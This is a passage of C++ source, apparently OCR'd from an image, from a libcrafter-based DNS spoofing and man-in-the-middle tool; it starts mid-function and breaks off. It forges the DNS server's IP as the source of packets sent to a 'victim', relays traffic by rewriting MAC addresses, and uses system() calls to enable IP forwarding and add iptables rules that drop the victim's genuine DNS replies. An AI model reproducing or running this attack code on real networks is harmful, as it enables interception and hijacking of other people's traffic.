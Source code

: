 ```

				/* Send the packet to the victim IP */
				ip_layer->SetDestinationIP(host_data->victim_ip);
				/* PUt the dns IP address as a source IP */
				ip_layer->SetSourceIP(dns_ip);


				/* +++++ UDP Layer */

				/* Swap the destinations and source port */
				short_word src_port = udp_layer->GetSrcPort();
				short_word dst_port = udp_layer->GetDstPort();
				udp_layer->SetSrcPort(dst_port);
				udp_layer->SetDstPort(src_port);

				/* After modifying the layers, write the packet on the wire */
				sniff_packet->Send(host_data->iface);

			} else {

				/* Send the packet to the dns */
				ether_layer->SetDestinationMAC(host_data->dns_mac);
				/* And put our MAC ad a source */
				ether_layer->SetSourceMAC(host_data->my_mac);
				/* After modifying the Ethernet layer, write the packet on the wire */
				sniff_packet->Send(host_data->iface);

			}


		/* ...or coming from the server  */
		} else if (ip_layer->GetDestinationIP() == host_data->victim_ip) {

			/* Send the packet to the victim */
			ether_layer->SetDestinationMAC(host_data->victim_mac);
			/* And put our MAC ad a source */
			ether_layer->SetSourceMAC(host_data->my_mac);

			/* After modifying the Ethernet layer, write the packet on the wire */
			sniff_packet->Send(host_data->iface);
		}

	}

}

void iptables_block(const string& iface, const string& victim_ip, int dst_port) {
	/* Activate IP forwarding */
	system("/bin/echo 1 > /proc/sys/net/ipv4/ip_forward");

	/* Drop packets sent to or received from a http server (for victim IP address) */
	system(string("/sbin/iptables  -A FORWARD -s " + victim_ip +
			      " -p udp --dport " + StrPort(dst_port) + " -j DROP").c_str());
	system(string("/sbin/iptables -A FORWARD -d " + victim_ip +
			      " -p udp --sport " + StrPort(dst_port) + " -j DROP").c_str());

	/* Remember that libcrafter doesn't mind about local firewalls rules... */
}

void iptables_flush(const string& iface, const string& victim_ip, int dst_port) {
	/* Disable IP forwarding */
	system("/bin/echo 0 > /proc/sys/net/ipv4/ip_forward");
	/* Delete the rules */
```